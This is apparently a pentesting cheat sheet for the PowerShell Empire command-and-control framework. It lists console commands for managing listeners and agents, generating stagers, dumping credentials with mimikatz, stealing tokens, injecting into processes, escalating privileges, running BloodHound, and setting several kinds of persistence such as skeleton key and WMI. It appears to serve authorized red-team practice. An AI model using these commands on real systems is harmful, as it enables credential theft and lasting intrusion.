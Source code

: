 ```console
$ ./ps-empire client
```

### Starkiller

> http://127.0.0.1:1337/index.html

### Common Commands

```console
(Empire) > listeners                      // list current running listeners
(Empire) > uselistener                    // configure listener
(Empire) > agents                         // list available agents
(Empire) > kill <NAME>                    // kill a specific agent
(Empire: listeners/http) > info           // provide information about used listener or module
(Empire: listeners/http) > back           // get back from current menu
(Empire: listeners) > usestager           // creating payloads
(Empire: agents) > rename <NAME> <NAME>   // renaming specific agent
(Empire: agents) > interact <NAME>        // interacting with specific agent
(Empire: agents) > searchmodule <NAME>    // search for a specific module
(Empire: <NAME>) > usemodule <NAME>       // use a specific module
(Empire: <NAME>) > sysinfo                // show system information
(Empire: <NAME>) > creds                  // show credentials
(Empire: <NAME>) > download               // download files
(Empire: <NAME>) > upload                 // upload files
(Empire: <NAME>) > sleep <60>             // set agent communication to sleep for 60 seconds
(Empire: <NAME>) > steal_token            // impersonate access token
(Empire: <NAME>) > shell [cmd]            // open a shell with cmd.exe
(Empire: <NAME>) > ps                     // show running processes
(Empire: <NAME>) > psinject               // inject agent to another process
(Empire: <NAME>) > scriptimport           // load powershell script
(Empire: <NAME>) > mimikatz               // executes sekurlsa::logonpasswords
(Empire: <NAME>) > usemodule privesc/getsystem            // try privilege escalation
(Empire: <NAME>) > usemodule privesc/sherlock             // run sherlock
(Empire: <NAME>) > usemodule privesc/powerup/allchecks    // perform privilege escalation checks
(Empire: <NAME>) > usemodule situational_awareness/host/antivirusproduct    // provides information about antivirus products
(Empire: <NAME>) > usemodule situational_awareness/host/applockerstatus     // provides information about applocker status
(Empire: <NAME>) > usemodule situational_awareness/host/computerdetails     // provides information about event ids 4648 (RDP) and 4624 (successful logon)
(Empire: <NAME>) > situational_awareness/network/get_spn                       // provides information about spns
(Empire: <NAME>) > situational_awareness/network/powerview/get_domain_trust    // show information about domain trusts
(Empire: <NAME>) > situational_awareness/network/powerview/map_domain_trust    // map information about domain trust
(Empire: <NAME>) > situational_awareness/network/bloodhound3                   // load bloodhound module
(Empire: <NAME>/situational_awareness/network/bloodhound3) > set CollectionMethodAll    // configure bloodhound module
(Empire: <NAME>/situational_awareness/network/bloodhound3) > run                        // run the module
(Empire: <NAME>) > download *bloodhound*                                                // download the module
(Empire: <NAME>) > usemodule powershell/persistence/elevated/registry    // registry persistence
(Empire: <NAME>) > usemodule persistence/misc/add_sid_history            // sid history persistence
(Empire: <NAME>) > usemodule persistence/misc/memssp                     // ssp persistence
(Empire: <NAME>) > usemodule persistence/misc/skeleton_key               // skeleton key persistence
(Empire: <NAME>) > usemodule persistence/elevated/wmi                    // wmi persistence
```
